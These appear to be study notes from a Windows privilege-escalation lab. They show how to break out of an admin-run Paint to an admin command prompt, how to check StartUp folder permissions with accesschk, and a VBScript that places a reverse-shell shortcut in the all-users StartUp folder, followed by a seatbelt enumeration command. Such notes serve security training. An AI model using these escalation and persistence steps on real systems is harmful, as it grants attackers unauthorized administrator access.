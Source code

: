 On some (older) versions of Windows, users could be granted the permission to run certain GUI apps with administrator privileges.
There are often numerous ways to spawn command prompts from within GUI apps, including using native Windows functionality.
Since the parent process is running with administrator privileges, the spawned command prompt will also run with these privileges.
I call this the “Citrix Method” because it uses many of the same techniques used to break out of Citrix environments.

- Log into the Windows VM using the GUI with the “user” account.
- Double click on the “AdminPaint” shortcut on the Desktop.

Open a command prompt and run:
```cmd
 tasklist /V | findstr mspaint.exe 
```
Note that mspaint.exe is running with admin privileges.
Click on open files and just use cmd.exe since it is running as admin, it will spawn an admin shell

## Startup apps

A user can decide which apps are going to run automatically on startup which is

***
	C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp

***

```cmd
.\accesschk.exe /accepteula -d  "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

```

Startup files should be shortcuts or known as link files to work properly.
We can make a small VBscript to add a shortcut. Here is the code


```vbs
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```
```cmd
 cscript CreateShortcut.vbs
```
## Using Installed Applications 

Using seatbelt

```cmd
.\seatbelt.exe NonstandardProcesses
```
